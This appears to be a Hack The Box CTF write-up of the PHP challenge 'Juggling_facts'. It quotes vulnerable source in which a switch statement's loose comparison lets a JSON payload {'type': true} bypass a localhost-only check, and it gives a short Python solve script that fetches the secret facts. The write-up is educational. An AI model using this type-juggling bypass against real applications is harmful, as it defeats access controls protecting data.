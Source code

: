 ```yaml
---
title: Juggling_facts
date: 2023-12-09 15:53:16 +0800
categories: [Hackthebox-Challenges, Juggling_facts]
tags: [htb, ctf, pentesting, web, code-auditing]
---
```



<img src="/assets/global/banner.png" alt="banner image">

## Juggling_facts is a PHP chalenge on Hackthebox

### Description:

This challenge allows you to choose between some type of option called facts,\
but to access the **secret** one that contains out FLAG you need to access this site from localhost,\
we can't do that but after some code auditing it was using switch case,\
 and furtunatly it's vulnerble to `loose comparison`.

### Source code:
<a href='https://mega.nz/file/CbJRgSjT#XFf7s4AVC-WkkqPq6Rxz9DT3J1DZBL4o-jCVH11ZW4I'>Download source code</a>

*zip password: `hackthebox`*


### Vulnerable code:
```php
        if ($jsondata['type'] === 'secrets' && $_SERVER['REMOTE_ADDR'] !== '127.0.0.1')
        {
            return $router->jsonify(['message' => 'Currently this type can be only accessed through localhost!']);
        }
# as you see if the user input equals `secret` and the request didn't come from localhost an error message returned.
```

```php
 public function getfacts($router)
    {
        $jsondata = json_decode(file_get_contents('php://input'), true);

        if ( empty($jsondata) || !array_key_exists('type', $jsondata))
        {
            return $router->jsonify(['message' => 'Insufficient parameters!']);
        }

        if ($jsondata['type'] === 'secrets' && $_SERVER['REMOTE_ADDR'] !== '127.0.0.1')
        {
            return $router->jsonify(['message' => 'Currently this type can be only accessed through localhost!']);
        }

        switch ($jsondata['type'])
        {
            case 'secrets': // here where the `loose comparison` happenes
                return $router->jsonify([
                    'facts' => $this->facts->get_facts('secrets')
                ]);

            case 'spooky':
                return $router->jsonify([
                    'facts' => $this->facts->get_facts('spooky')
                ]);
            
            case 'not_spooky':
                return $router->jsonify([
                    'facts' => $this->facts->get_facts('not_spooky')
                ]);
            
            default:
                return $router->jsonify([
                    'message' => 'Invalid type!'
                ]);
        }
    }

```

to understand more about this issue take a look at `switch case` manual in php.net.

<img src="/assets/juggling_facts/loose-comparison.png" alt="lose comparison image">

so to exploit this take a look at this table provided by `PHP` manual.


<img src="/assets/juggling_facts/table.png" alt="lose comparison table image">

As you can see if we have for example `case "secret":` and we pass `true` in the `option(true)` parameter.\
it will match the secret because it uses only two equals `==` not three.



### Solve:

```python


import requests


payload = """
    {
        "type":true
    }
"""
url = 'http://localhost:1337/api/getfacts'
headers = {'Content-Type': 'application/json'}
res = requests.post(url, data=payload, headers=headers)
if res.status_code == 200:
    print(res.text)
else:
    print(res.status)


```

